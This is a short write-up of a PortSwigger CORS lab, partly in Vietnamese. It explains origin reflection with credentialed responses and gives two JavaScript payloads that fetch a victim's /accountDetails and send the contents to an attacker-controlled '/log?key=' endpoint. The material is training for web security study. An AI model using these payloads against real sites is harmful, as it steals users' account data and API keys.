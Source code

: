 # CORS

### 1. CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Context: trusted all origin

![alt text](image.png)

Trong response có `Access-Control-Allow-Credentials: True` nó cho phép mang cookie hoặc authorization client có khi truy cập từ orgin khác. 

Test:

Thêm `Origin: https://example.com` vào request và ở response xuất hiện `Access-Control-Allow-Origin: https://example.com`

![alt text](image-1.png)

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

hoặc 
```js
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "Lab-id"

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

--- 

### 2. 
